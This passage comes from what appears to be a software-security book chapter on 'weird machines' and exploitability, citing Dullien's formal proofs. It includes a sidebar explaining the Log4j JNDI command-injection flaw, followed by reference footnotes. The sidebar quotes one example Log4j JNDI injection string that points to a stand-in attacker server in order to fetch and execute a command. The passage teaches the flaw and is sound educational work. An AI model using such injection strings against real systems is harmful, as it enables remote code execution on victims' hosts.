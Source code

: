 For readers wanting a formal proof, Dullien further solidifies the weird machine model with mathematical rigor[^FormalWeirdness]. Notably, Dullien's work differs from our coverage of exploitation in two interesting ways:

1. He offers a formal proof of *non-exploitability* for a theoretical program's finite state machine. To demonstrate that such a proof is possible to construct under specific constraints, even if impractical.

    * We do not attempt to prove non-exploitability for any programs in this book. Regardless - this is a powerful idea significant to our understanding computer security as a science.

2. He demonstrates the exploitability (proof-by-counterexample) of a different implementation of that same theoretical program *without* altering control flow.

    * We won't demonstrate any exploit maintaining perfect control flow integrity in this book. Just know that "data-oriented attacks" are possible (even if uncommon) examples of weird machine programming.

> **Weird Machines are Universal**
>
> There's more than one way to skin a ~~cat~~ state machine.
> We contextualized the above diagram within binary exploitation, but it would accurately represent memory-safe command injection.
> In fact, Java's Log4J CVE-2021-44228[^Log4J] enables a stable, widely applicable weird machine with similar Remote Code Execution (RCE) semantics.
>
> At a high-level, Log4J exploitation works like this[^ComputerphileLog4J]:
>
> * Production-grade software leverages logging frameworks to aid with error diagnosis, anomaly detection, and system monitoring. Apache Log4j is a leading logging library for Java, so it's nearly ubiquitous in-the-wild.
>
> * Log4j supports a macro-like syntax for meta-programming of log messages. For example, the string `${java:version}` would be expanded and logged as `Java version X.Y.Z_XYZ` - fingerprinting the host's currently installed Java software.
>
> * Many log sites in a codebase write external, attacker-controlled values directly into the logged string. A host's User Agent is one example, since it can be configured. Coupled with expansion/meta-programming, we lose a **non-repudiation** property - the attacker controls log message contents and can falsify data to cover their tracks.
>
> * It gets worse: we also lose all assurance as well. As of 2013, Log4j offers integration with the Java Naming and Directory Interface (JNDI). This functionality, intended for remote lookups, allows fetching and running Java classes from a remote server. If an attacker can get a string like `${jndi:ldap://evildomain.net:1337/Basic/Command/Base64/SOME_BASE64_CMD}` into a log[^HutchinsLog4J], the victim's host will connect to an attacker-controlled server, fetch an arbitrary malicious command, and execute it locally.
>
> In this example of command injection, the weird machine is programmed with a specially crafted string addressing an attacker-controlled server.
> Untrusted log data becomes code executed with the privileges of the victim process.
>
> The vulnerability is not a memory safety violation, it's a configuration flaw: an unintended composition of esoteric features that should have been disabled by default.
> It could have happened within a Rust logging library, if one offered an equivalent feature set that likewise wasn't securely designed.


[^ProjZero2021Review]: [*The More You Know, The More You Know You Don't Know*](https://googleprojectzero.blogspot.com/2022/04/the-more-you-know-more-you-know-you.html). Maddie Stone, Google Project Zero (2022).
[^DoD]: [*DoD Software Assurance Initiative*](https://www.acqnotes.com/Attachments/DoD%20Software%20Assurance%20Initiative.pdf). Mitchell Komaroff, Kristin Baldwin (2005, Public Domain)
[^HACMSMain]: [*High-Assurance Cyber Military Systems (HACMS) (Archived)*](https://www.darpa.mil/program/high-assurance-cyber-military-systems). DARPA (Accessed 2023).
[^HACMSPaper]: [*The HACMS program: using formal methods to eliminate exploitable bugs*](https://www.ncbi.nlm.nih.gov/pmc/articles/PMC5597724/pdf/rsta20150401.pdf). Kathleen Fisher, John Launchbury, Raymond Richards (2017).
[^Galois]: [*HACMS (High-Assurance Cyber Military Systems)*](https://galois.com/project/hacms-high-assurance-cyber-military-systems/). Galois (Accessed 2023).
[^SetNote]: Note the behavior of any given program of sufficient complexity, in all likelihood, is a large set that has *some* overlap with both the malicious and undefined sets. Remember we're talking about all possible executions - for any possible input - and there is no absolute security. Nor absolute assurance.
[^ExpSub]: This assumption doesn't always hold. For example, command injection vulnerabilities (e.g. Log4J) make for extremely reliable and powerful exploits yet their effects are defined as far as a language specification is concerned. We still have a well-defined program that faithfully executed the provided command - it just wasn't the author-intended command!
[^DirTrav]: [*Path Traversal*](https://owasp.org/www-community/attacks/Path_Traversal). OWASP (Accessed 2023).
[^UBNote]: Recall the concept of a UB "time bomb" from Chapter 3 - a program can work as expected despite relying on UB. At least until a subtle change in toolchain or a specially crafted input triggers it.
[^WeirdMachine]: [*Exploit Programming: From Buffer Overflows to "Weird Machines" and Theory of Computation*](https://www.usenix.org/system/files/login/articles/105516-Bratus.pdf). Sergey Bratus, Michael Locasto, Meredith Patterson, Len Sassaman, and Aanna Shubina (2011).
[^IFSM]: What we call the "normal machine" is what Dullien[^FormalWeirdness] refers to as the *Intended Finite State Machine (IFSM).* We can think of any software program as an *approximation* of an abstract IFSM (here, the states of an ideal POSIX web server) emulated atop a CPU's low-level FSM (as specified by architecture manuals). "Approximation" because programs have bugs. The subset of bugs which are vulnerabilities allow breaking out of IFSM states and into emergent, weird FSM states.
[^PosixSock]: [*Berkeley sockets*](https://en.wikipedia.org/wiki/Berkeley_sockets). Wikipedia (Accessed 2022).
[^FormalWeirdness]: [*Weird Machines, Exploitability, and Provable Unexploitability*](https://ieeexplore.ieee.org/stamp/stamp.jsp?arnumber=8226852). Thomas Dullien (2017).
[^TuringComplete]: [*Turing Completeness*](https://en.wikipedia.org/wiki/Turing_completeness). Wikipedia (Accessed 2022).
[^Log4J]: [*Apache Log4j Vulnerability Guidance*](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). CISA (2021).
[^ComputerphileLog4J]:  [*Log4J & JNDI Exploit: Why So Bad?*](https://www.youtube.com/watch?v=Opqgwn8TdlM). Computerphile (2021).
[^HutchinsLog4J]:  [*Log4j (CVE-2021-44228) RCE Vulnerability Explained*](https://www.youtube.com/watch?v=0-abhd-CLwQ). Marcus Hutchins (2021).